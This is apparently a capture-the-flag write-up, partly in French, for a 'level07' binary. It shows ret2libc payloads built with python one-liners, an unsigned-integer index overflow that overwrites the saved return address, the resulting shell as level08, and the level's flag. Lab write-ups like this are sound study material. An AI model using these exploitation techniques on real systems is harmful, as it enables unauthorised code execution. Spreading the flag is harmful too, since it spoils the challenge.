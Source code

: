 addr of "/bin/sh" : 0xf7f897ec
addr of system: 0xf7e6aed0
addr of exit: 0xf7e6aed0

Ret2libc code:

```bash
python -c 'print "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "
```

We need to be able to put this code in a place where it can be executed later on.
Command[20] could allow us to store this ret2libc as the commands are quite short and no check is performed on these adresses

To do so we can first call for a garbage command to prefix our shellcode

```bash
python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n"'
```

This should allow us to be able to then call "store" command and pass an index without touching to the ret2libc code contained in command[20]

The data we want to store using "store" needs to be put at an index that will be executed.
To do so we can override the address of the plt of a function
-> stack_check_fail : 0x804a010
-> printf : 0x804a000
-> fgets : 0x804a00c

```bash
(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + "<addr of buffer command>"[::-1] + "\n" + "diff between addr of data_storage and printf plt"' ; cat) | ./level07
(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + "4294956639" + "\n" + "4160435336"' ; cat) | ./level07
```

We were wrong on the approach as what refers to the plt seems to be inaccessible from our program's dedicated memory. What we need to do instead is to override the EIP execution pointer to make it point towards our exploit. Let's keep going with our method of Ret2libc but in a slightly different way:

system: "0xf7e6aed0" => 4159090384
"/bin/sh": "0xf7f897ec" => 4160264172
addr of buffer: "0xffffd544" =>
addr of eip after store_number: "0xffffd51c" => contient une adresse de main
addr of eip after read_number: "0xffffd51c" => contient une adresse de main
addr of eip at the start of main function: "0xffffd70c" => contient l'adresse de retour apres le main

When exiting a function, the address stored in EIP carries the address of the next executed command.
Depuis le buffer 0xffffd544 on peut aller override ce saved pointer de EIP. Ainsi, quand la fonction main exit, elle sera redirigee vers notre exploit.
0xffffd70c - 0xffffd544 = 456
Etant un tableau d'uint, chaque index avance de 4 octets. Ainsi pour atteindre l'adresse 0xffffd70C on doit ecrire a l'index 456/4 = 114.
114 etant un multiple de 3, on va devoir trouver une astuce (overflow uint)

On doit trouver une valeur suffisament grande pour overflow lorsque multipliee par 4.
uint est compris entre 0 et 2^32 -1
mutliplier par deux revient a bitshift a gauche de 1
2^30 << 2 = 2^32 = 0 (premiere valeur qui overflow)
2^30 = 1073741824
2^30 + 114 = 1073741938
1073741938 \* 4 = 4294967752
4294967752 % 2^32 = 456 Done

-> stocker l'adresse de system a l'adresse 0xffffd70c et l'adresse de "/bin/sh" (index 114) a l'adresse 0xffffd70e (index 116)

Il ne reste plus qu'a quitter la fonction main

```
Input command: store
 Number: 4159090384
 Index: 1073741938 (114 overflown)
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```

flag
```
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
